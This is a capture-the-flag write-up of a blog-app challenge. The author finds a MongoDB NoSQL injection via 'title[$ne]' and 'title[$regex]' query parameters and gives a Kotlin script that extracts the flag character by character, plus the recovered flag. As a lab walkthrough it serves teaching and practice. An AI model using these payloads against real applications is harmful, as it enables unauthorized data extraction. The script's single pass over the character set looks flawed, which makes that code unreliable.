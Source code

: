 # Blogging Web Site

Hi Expert,

some kind of blogging application remains unfinished on `http://78.128.216.18:65180`, but it can contain some information about end of the civilization. Get the content of all entries.

Good Luck

---

I tried to provoke an error in the application. Usually, navigating to a non-existing page is a good start:
```
$ curl http://78.128.216.18:65180/test
<br />
<b>Fatal error</b>:  Uncaught Slim\Exception\HttpNotFoundException: Not found. in /opt/ctfb1/web/vendor/slim/slim/Slim/Middleware/RoutingMiddleware.php:91
Stack trace:
#0 /opt/ctfb1/web/vendor/slim/slim/Slim/Routing/RouteRunner.php(72): Slim\Middleware\RoutingMiddleware-&gt;performRouting(Object(Slim\Psr7\Request))
#1 /opt/ctfb1/web/vendor/slim/twig-view/src/TwigMiddleware.php(125): Slim\Routing\RouteRunner-&gt;handle(Object(Slim\Psr7\Request))
#2 /opt/ctfb1/web/vendor/slim/slim/Slim/MiddlewareDispatcher.php(147): Slim\Views\TwigMiddleware-&gt;process(Object(Slim\Psr7\Request), Object(Slim\Routing\RouteRunner))
#3 /opt/ctfb1/web/vendor/slim/slim/Slim/MiddlewareDispatcher.php(81): class@anonymous-&gt;handle(Object(Slim\Psr7\Request))
#4 /opt/ctfb1/web/vendor/slim/slim/Slim/App.php(215): Slim\MiddlewareDispatcher-&gt;handle(Object(Slim\Psr7\Request))
#5 /opt/ctfb1/web/vendor/slim/slim/Slim/App.php(199): Slim\App-&gt;handle(Object(Slim\Psr7\Request))
#6 /opt/ctfb1/web/public/index.php(35): Slim\App-&gt;run()
#7 {main}
  thrown in <b>/opt/ctfb1/web/vendor/slim/slim/Slim/Middleware/RoutingMiddleware.php</b> on line <b>91</b><br />
```

This reveals quite a lot. The app is using PHP (namely [Slim framework](https://github.com/slimphp/Slim)) and
[Twig](https://github.com/twigphp/Twig) for templating. 

At first, I was looking for SSTI in Twig. Couldn't find any. Then, I started to fuzz `title` param.
One of the payloads I tried (using [OWASP ZAP](https://www.zaproxy.org/)) was `%999999999s`:
```
$ curl http://78.128.216.18:65180/view?title=%999999999s
<br />
<b>Fatal error</b>:   in <b>/opt/ctfb1/web/vendor/mongodb/mongodb/src/Operation/Find.php</b> on line <b>299</b><br />
```

This confirms that mongo is really being used (as one of the `TODO` entries suggests).

I left the idea of SSTI and moved to NoSQLi. After some time,
I found [A NoSQL Injection Primer with Mongo](https://nullsweep.com/a-nosql-injection-primer-with-mongo/)
and [PHP: Request Injection Attacks](https://www.php.net/manual/en/mongodb.security.request_injection.php).

I confirmed the vulnerability with `/view?title[$ne]=First%20entry`. It returns `TODO` entry. Cool!

The last step is to get the flag somehow. I tried `view?title[$regex]=A` and got `This is the flag post.`
However, we need the title...

Next, `view?title[$regex]=FLAG{.*}`. It, again, returns `This is the flag post.`. 
The plan is to simply exfiltrate the flag characters one by one:
```kotlin
import java.net.URI
import java.net.http.HttpClient
import java.net.http.HttpRequest
import java.net.http.HttpResponse

private val CHARS: List<Char> = ('0'..'9') + ('a'..'z') + ('A'..'Z') + '-'

fun main() {
    val httpClient = HttpClient.newBuilder()
        .version(HttpClient.Version.HTTP_1_1)
        .build()

    var flag = ""

    for (ch in CHARS) {
        flag += ch

        val request = HttpRequest.newBuilder()
            .GET()
            // http://78.128.216.18:65180//view?title[$regex]=FLAG{$flag.*}
            .uri(URI.create("http://78.128.216.18:65180/view?title%5B%24regex%5D=FLAG%7B$flag%2E%2A%7D"))
            .build()

        val response = httpClient.send(request, HttpResponse.BodyHandlers.ofString()).body()!!
        if (response.contains("This is the flag post.")) {
            println(flag)
            continue
        } else {
            flag = flag.dropLast(1)
        }
    }
}
```

The flag is `FLAG{LWbF-QzFv-xyCt-mkUE}`